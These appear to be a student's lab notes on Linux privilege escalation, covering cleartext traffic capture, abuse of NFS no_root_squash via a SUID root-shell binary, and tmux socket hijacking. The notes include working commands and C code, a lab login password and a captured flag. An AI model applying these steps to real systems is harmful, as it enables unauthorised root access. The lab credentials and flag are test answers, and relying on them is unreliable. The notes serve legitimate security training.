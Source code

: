 # Miscellaneous Techniques

## Passive Traffic Capture

If tcpdump is installed, unprivileged users may be able to capture network traffic, including, in some cases, credentials passed in cleartext. 

It may also be possible to capture Net-NTLMv2, SMBv2, or Kerberos hashes, which could be subjected to an offline brute force attack to reveal the plaintext password.

Cleartext protocols such as HTTP, FTP, POP, IMAP, telnet, or SMTP may contain credentials that could be reused to escalate privileges on the host.

## Weak NFS Privileges

showmount -e 10.129.2.12

Export list for 10.129.2.12:
/tmp             *
/var/nfs/general *

When an NFS volume is created, various options can be set:

- root_squash : If the root user is used to access NFS shares, it will be changed to the nfsnobody user, which is an unprivileged account. Any files created and uploaded by the root user will be owned by the nfsnobody user
--> it prevents prevents an attacker from uploading binaries with the SUID bit set.

- no_root_squash : Remote users connecting to the share as the local root user will be able to create files on the NFS server as the root user

cat /etc/exports

/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)

Create a SETUID binary that executes /bin/sh using our local root user

cat shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}

gcc shell.c -o shell

sudo mount -t nfs 10.129.2.12:/tmp /mnt
cp shell /mnt
chmod u+s /mnt/shell

On the targeted host :
./shell
id
uid=0(root) gid=0(root) groups=0(root)

## Hijacking Tmux Sessions

Terminal multiplexers such as tmux can be used to allow multiple terminal sessions to be accessed within a single console session.

tmux -S /shareds new -s debugsess
chown root:devs /shareds

ps aux | grep tmux

root      4806  0.0  0.1  29416  3204 ?        Ss   06:27   0:00 tmux -S /shareds new -s debugsess


ls -la /shareds 

srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds

id

uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)

tmux -S /shareds

id

uid=0(root) gid=0(root) groups=0(root)

## LAB

ssh htb-student@10.129.220.117
Academy_LLPE!

showmount -e 10.129.220.117
Export list for 10.129.220.117:
/tmp             *
/var/nfs/general *

ls -l /tmp/
total 12
drwx------ 3 root root 4096 Jan 24 20:10 systemd-private-1cadb203e1f04f01a4d8f8a542e7cca7-systemd-timesyncd.service-BZok5Q
drwxrwxrwt 2 root root 4096 Jan 24 20:10 VMwareDnD
drwx------ 2 root root 4096 Jan 24 20:10 vmware-root

ls -m /var/nfs/general
exports_flag.txt

cat /var/nfs/general/exports_flag.txt
fc8c065b9384beaa162afe436a694acf